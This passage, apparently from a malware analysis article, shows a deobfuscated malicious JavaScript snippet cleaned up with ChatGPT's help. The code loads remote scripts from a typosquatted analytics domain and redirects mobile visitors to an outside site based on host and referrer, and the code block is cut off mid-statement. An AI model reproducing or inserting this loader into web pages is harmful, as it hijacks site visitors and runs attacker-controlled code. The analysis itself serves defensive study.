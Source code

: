 At this point, you would need to rely on ChatGPT again. Just ask it to improve the readability, and you will get the following result:

``` js
// Function to load a JavaScript file dynamically and execute a callback once it's loaded
function loadJS(url, callback) {
  const script = document.createElement('script');
  const onLoadCallback = callback || function () {};
  script.type = 'text/javascript';
  script.onload = onLoadCallback;
  script.src = url;
  document.getElementsByTagName('head')[0].appendChild(script);
}

// Function to determine if the current device is a PC
function isPc() {
  try {
    const isWindows = navigator.platform === 'Win32' || navigator.platform === 'Windows';
    const isMac = ['Mac68K', 'MacPPC', 'Macintosh', 'MacIntel'].includes(navigator.platform);
    return isWindows || isMac;
  } catch (error) {
    return false;
  }
}

// Function to check if any of the provided keywords exist in the document's HTML
function checkKeywords(keywords) {
  const htmlContent = document.documentElement.innerHTML;
  for (const keyword of keywords) {
    if (htmlContent.includes(keyword)) {
      return true;
    }
  }
  return false;
}

// Function to fetch keyword data and update the page if keywords match
function vfed_update(redirectUrl) {
  fetch('https://www.googie-anaiytics.com/keywords/vn-keyword.json')
    .then(response => response.json())
    .then(keywords => {
      const keywordsFound = checkKeywords(keywords);
      if (keywordsFound && redirectUrl) {
        loadJS('https://www.googie-anaiytics.com/html/checkcachehw.js?origin=kwvnn', function () {
          if (window.usercache === true) {
            window.location.href = redirectUrl;
          }
        });
      }
    })
    .catch(error => console.error('Error fetching the JSON file:', error));
}

// Function to handle page redirection based on certain conditions
function check_tiaozhuan() {
  if (navigator.userAgent.match(/(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i)) {
    const host = window.location.host;
    const referrer = document.referrer;
    const redirectBaseUrl = 'https://wweeza.com/redirect?from=bitget';
    const currentHour = new Date().getHours();
    let redirectUrl = '';

    if (['www.dxtv1.com', 'www.ys752.com', 'shuanshu.com.com'].includes(host) ||
```